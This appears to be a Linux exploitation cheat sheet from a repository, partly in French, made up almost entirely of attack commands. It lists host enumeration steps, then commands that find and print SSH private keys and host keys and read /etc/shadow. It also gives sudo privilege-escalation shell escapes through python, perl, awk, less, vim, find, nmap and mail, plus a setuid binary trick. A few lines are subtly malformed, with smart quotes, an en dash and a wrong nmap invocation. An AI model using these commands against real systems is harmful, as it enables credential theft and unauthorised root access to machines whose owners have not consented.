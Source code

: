# Linux-Exploitation

## Internal Enumeration

#### ID and location
```
id
pwd
```

#### OS / Version / Architecture
```
cat /etc/*-release
uname -i
uname -a
uname -r
cat /proc/version
hostnamectl | grep Kernel
lsb_release -a (Debian based OSs)
```

#### Packaged installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
```

#### Running services and network services
```
ps aux
netstat -antup
```

#### Network
```
ifconfig
ip addr show
arp -a
```

#### Search a file
```
find . -name "*.txt"
```

#### Read SSH key
```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```


## Automated enumeration

## Privesc

#### Sudoers

##### python privesc
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```
##### perl privesc
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

##### cp + chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

##### awk
```
awk 'BEGIN {system("/bin/bash")}'
```

##### less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create file
sudo -u root /usr/bin/less 

Solution 2 : on obtient un shell avec les droits à de victim à l'aide de less
Pour commencer il faut ouvrir un fichier avec less comme par exemple /etc/passwd
Puis, il faut écrire (comme pour quitter vim et comme dans l'exemple précédent):
!/bin/bash
```

##### vim
```
sudo -u victim /usr/bin/vim
puis on tape (pas dans le fichier mais de la même manière que lorsque l'on souhaite quitter vim):
:!/bin/bash
```

##### find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

##### Bash
```
sudo -u root /bin/bash
```

##### nmap
```
 sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

##### Mail
```
sudo mail --exec='!/bin/bash'
```
